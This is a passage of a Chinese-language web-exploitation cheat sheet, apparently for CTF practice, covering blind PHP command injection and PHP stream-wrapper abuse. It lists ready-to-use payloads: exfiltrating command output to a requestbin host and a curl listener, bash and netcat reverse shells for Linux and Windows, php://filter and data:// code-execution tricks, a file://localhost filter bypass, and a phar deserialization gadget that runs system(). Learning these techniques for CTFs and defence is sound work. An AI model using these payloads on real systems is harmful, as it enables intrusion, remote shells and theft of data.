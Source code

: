 10.  无回显情况

```
<?php 
exec($_GET['c']); 
```

方案

```
 http://http.requestbin.buuoj.cn/xxxx?a=`whoami`

nc -lvp 4444
curl http://192.168.0.x:4444?a=`whoami`

ls -la />aaa.txt

bash -i >& /dev/tcp/127.0.0.1/8888 0>&1 (linux)

nc 127.0.0.1 8888 -e /bin/sh (linux)
nc 127.0.0.1 8888 -e c:\windows\system32\cmd.exe (windows) 
```

#### 六、伪协议

1.  常用伪协议`php://filter/`，用法

```
php://filter/[read|write]=????/resource=??? 
```

2.  常用转换类型`convert.base64-decode`、`convert.quoted-printable-encode`、`convert.iconv.<input-encoding>.<output-encoding>`、`string.strip_tags`
    、`string.toupper`、`string.tolower`、`string.rot13`等等

3.  `file://`协议支持以`file://localhost/etc/hosts`的方式访问服务器文件，来绕过`file:///`的过滤

4.  `php://input`获取post中的数据，注意：enctype=“multipart/form-data” 的时候 php://input 是无效的

5.  `data://`自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输。
    如：`http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`

6.  `zip://`、`compress.zlib://`，压缩过滤器 不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 zlib.* 压缩过滤器自 PHP 版本 5.1.0起可用，在激活 zlib的前提下。也可以通过安装来自 » PECL的 » zlib_filter包作为一个后门在 5.0.x版中使用。此过滤器在 PHP 4 中 不可用。

7.  `phar://`上传phar包，使用phar伪协议

```
class A {
    public $a;
    public function __destruct()
    {
        system($this->a);
    }
}

$a=new A();
$a->a  =  'ls /';
$phar = new Phar("aaa.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "b"); 
$phar->stopBuffering();

include "phar://aaa.phar/test.txt"; 
```
